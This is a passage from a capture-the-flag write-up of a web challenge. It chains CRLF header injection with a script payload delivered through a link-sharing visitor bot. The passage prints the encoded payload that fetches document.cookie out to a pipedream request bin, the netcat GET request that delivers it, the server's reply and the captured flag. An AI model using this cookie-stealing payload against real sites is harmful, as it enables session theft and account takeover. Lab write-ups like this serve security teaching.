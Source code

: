 URL encoded:

```
%0D%0A%0D%0A%3Cscript%3Efetch('https%3A%2F%2Fenp7ii7txpbn.x.pipedream.net%2F'%2Bdocument.cookie)%3C%2Fscript%3E
```

Since the link sharing feature will URL decode our input before visiting it, we'll have to send our link URL encoded. Furthermore, since the login page will URL decode the username query parameter when setting the cookie, in order for our payload to work on the visitor's browser, we must URL encode the username section again.

If we submit the link through the form on a browser we'd only need to URL encode it ourselves once, since the browser will automatically URL encode it when submitting. However, if we use a tool like [netcat](https://linux.die.net/man/1/nc), we'd have to do both URL encodings ourself.

The link sharing path is `/share?link=`, so to get the visitor to visit our website and steal their cookie, we would send a GET request to the path:

```
/share?link=http%3A%2F%2Fws-chall.umisc.info%3A2001%2Flogin%3Fusername%3D%250D%250A%250D%250A%253Cscript%253Efetch('https%253A%252F%252Fenp7ii7txpbn.x.pipedream.net%252F'%252Bdocument.cookie)%253C%252Fscript%253E
```

Using netcat:

```
$ nc -C ws-chall.umisc.info 2001
GET /share?link=http%3A%2F%2Fws-chall.umisc.info%3A2001%2Flogin%3Fusername%3D%250D%250A%250D%250A%253Cscript%253Efetch('https%253A%252F%252Fenp7ii7txpbn.x.pipedream.net%252F'%252Bdocument.cookie)%253C%252Fscript%253E HTTP/1.1

HTTP/1.1 200 OK
Server: HTTP Server 3000
Connection: closed

Hopefully people like your link!
```

Shortly after, we see a request to our request bin with the flag:

![requestbin-flag.png](./assets/requestbin-flag.png)

Flag: `MISCCTF{http_server_3000_1s_v3ry_b4d}`
